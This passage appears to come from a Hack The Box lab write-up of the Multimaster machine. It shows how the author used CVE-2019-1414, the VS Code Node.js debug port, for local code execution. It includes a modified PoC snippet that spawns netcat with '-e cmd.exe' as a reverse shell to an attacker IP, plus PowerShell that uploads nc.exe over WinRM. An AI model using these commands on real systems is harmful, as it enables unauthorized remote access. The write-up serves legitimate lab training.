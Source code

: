 ![](/assets/images/htb-writeup-multimaster/getprocess.png)

Phra from the Donkeys HTB team has a [blog post](https://iwantmore.pizza/posts/cve-2019-1414.html) about CVE-2019-1414 which lets users get local execution by using the debug port on the VS Code Node.js server.

In a nutshell, the debug port is bound to random TCP port everytime the application starts. Since I already had a shell on the machine I could watch the output of the netstat command and see what port is currently in use.

I won't paste the entire nodejs PoC since it's already in the blog post but I did change the `spawnSync` arguments since the PoC was using using bash and Multimaster is a Windows box. It took me a while to figure out that forward slashes were required. I didn't want to get bogged down in bypassing AV or AMSI so I just called netcat that I had uploaded onto the box.

```javascript
socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/programdata/nc.exe', ['-e', 'cmd.exe', '10.10.14.30', '80'])`
      }
    }))
```

To upload file with WinRM on Windows you can do the following:

```powershell
$sess = new-pssession multimaster.megacorp.local
copy-item -path nc.exe -destination c:\programdata\nc.exe -tosession $sess
```

Because the port was only listening on localhost, I had to get some port-forwarding going. I could have used a Meterpreter shell but instead opted for chisel in SOCKS proxy mode.

![](/assets/images/htb-writeup-multimaster/chisel_server.png)
